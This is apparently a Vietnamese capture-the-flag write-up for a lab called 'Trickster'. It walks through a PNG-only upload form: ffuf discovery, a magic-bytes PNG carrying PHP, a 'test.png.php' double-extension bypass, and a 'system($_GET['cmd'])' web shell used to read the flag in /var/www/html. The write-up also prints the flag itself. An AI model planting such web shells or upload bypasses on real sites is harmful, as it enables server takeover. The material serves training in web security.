

# Trickster




Đây là 1 trang web chỉ cho chúng ta tải lên file ảnh png


Mình dùng `ffuf` thì phát hiện ra cáo file `robots.txt` nền mình sẽ truy cập thử


Mình tiếp tục thấy có 2 đường dẫn 1 cái thì là dẫn đến file `instructions.txt` và 1 đường  dẫn còn lại là đến thư mục `/uploads` có vẻ như là nơi lưu trữ những bức ảnh mà chúng ta upload lên 


Trong file `instructions.txt` mình thấy cơ chế của web nó sẽ kiểm tra `extension` xem có phải là `‘.png’` không và `magic bytes` xem có đúng của định dạng png không 


Ở đây đầu tiên mình tải lên file ảnh có `extension` là `.png` và `magic byte` là của png nhưng mà ngay trong file ảnh mình có ghi thêm `payload` vào 

```sql
<?php phpinfo(); ?>
```


Sau đó mình sẽ truy cập thử xem file ảnh của mình có được thực thi nhưng có vẻ như là không thành công, giờ chúng ta sẽ cần chuyển hướng khác 

Đối với file thì có thể có nhiều `extension` mình không biết web sẽ kiểm tra `extension` bằng cách lấy phần `extension` sau dấu chấm đầu tiên hay lấy phần `extension` cuối cùng nên giờ mình sẽ chèn thêm `extension` thực thi ở cuối 

```sql
test.png.php
```


Mình đã tải file thành công có vẻ như nó chỉ kiểm tra `extension` sau dấu chấm đầu tiên thôi 


Mình truy cập và thấy code của mình đã được thực thi giờ chúng ta sẽ đi tìm flag 


Mình sẽ cần thay đổi `payload` để có thể thực thi code từ xa

```sql
<?php
    system($_GET['cmd']);
?>
```


Mình đang trong thư mục `upload` và thư mục này không có gì 


Thư mục `root` cũng vậy mình cũng không thấy gì lắm nên là mình quyết định thử check `thư mục gốc của web` xem sao 

```sql
var/www/html
```


Có 1 file `txt` tên khá lạ mình sẽ đọc thử nó


Thành công lấy được flag

academy{c3rt!fi3d_Xp3rt_tr1ckst3r_b0eea9c8}